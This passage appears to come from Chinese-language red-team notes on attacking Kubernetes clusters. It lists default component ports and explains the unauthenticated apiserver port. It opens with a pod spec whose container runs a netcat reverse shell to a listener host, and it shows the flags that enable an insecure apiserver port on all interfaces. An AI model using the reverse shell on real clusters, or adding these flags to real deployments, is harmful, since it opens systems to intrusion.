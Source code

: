 ```yaml
          protocol: TCP
          command:
          - /bin/sh
          - -c
          - nc 172.16.144.131 3333 -e /bin/sh
```



# 配置不当或未鉴权

默认来讲这些问题其实都不应该出现，一些曾经的问题在较高版本都已经修复了，如果出现问题，一般都是因为调试或者偷懒打开了权限而造成的入侵。

| **kube-apiserver:**      | **6443, 8080**         |
| ------------------------ | ---------------------- |
| **kubectl proxy:**       | **8080, 8081**         |
| **kubelet:**             | **10250, 10255, 4149** |
| **dashboard:**           | **30000**              |
| **docker api:**          | **2375**               |
| **etcd:**                | **2379, 2380**         |
| kube-controller-manager: | 10252                  |
| kube-proxy:              | 10256, 31442           |
| kube-scheduler:          | 10251                  |
| weave:                   | 6781, 6782, 6783       |
| kubeflow-dashboard:      | 8080                   |

## apiserver

需要下kubectl

```
curl -LO "https://dl.Kubernetes.io/release/$(curl -L -s https://dl.Kubernetes.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

一个6443和一个8080，前者会进行鉴权，后者不会

一般都有鉴权，/etc/kubernetes/manifests

默认`--insecure-port=0 `甚至删除字段

要开启未鉴权的话加上

```
- --insecure-port=8080
- --insecure-bind-address=0.0.0.0

systemctl restart kubelet
```
